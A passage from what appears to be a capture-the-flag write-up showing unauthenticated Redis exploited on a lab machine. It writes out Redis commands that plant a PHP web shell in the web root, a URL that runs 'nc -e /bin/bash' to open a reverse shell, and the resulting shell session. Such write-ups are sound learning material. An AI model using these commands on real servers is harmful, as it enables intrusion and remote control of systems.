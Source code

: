 ```
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/31 13:33:23 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 278]
```
---
### Exploitation
After some research in Google, I found this [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#redis-rce). How to perform a **RCE** against **Redis**. 

- First: Install redis in the local machine in order to be able to communicate easily with the Redis Server
- Second: Connect to the Redis Server
```
sudo redis-cli -h [IP]
```
- Third: Follow the instruction from the [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#redis-rce).
```
10.10.178.181:6379> config set dir /var/www/html
OK
10.10.178.181:6379> config set dbfilename rs.php
OK
10.10.178.181:6379> set cmd "<?php system($_GET['cmd']); ?>"
OK
10.10.178.181:6379> save
OK
```
- Fourth: check if the PHP payload works
```
http://[IP]/rs.php?cmd=whoami
```
Bingo!!! We receive the information.
- Fifth: Start a listener
```
nc -nlvp 4444
```
- Sixth: push a reverse shell command from the browser
```
http://10.10.178.181/rs.php?cmd=nc -e /bin/bash [IP] 4444
```
- Seventh:  Interactive Shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**Question**
#### ompromise the machine and locate user.txt
```
Connection from 10.10.178.181:58900
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
ls -l
total 16
-rw-r--r-- 1 root   root   11321 Sep  2  2020 index.html
-rw-r--r-- 1 vianka vianka   133 Dec 31 10:54 rs.php
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ cd /home
cd /home
www-data@ubuntu:/home$ ls -l
ls -l
total 4
```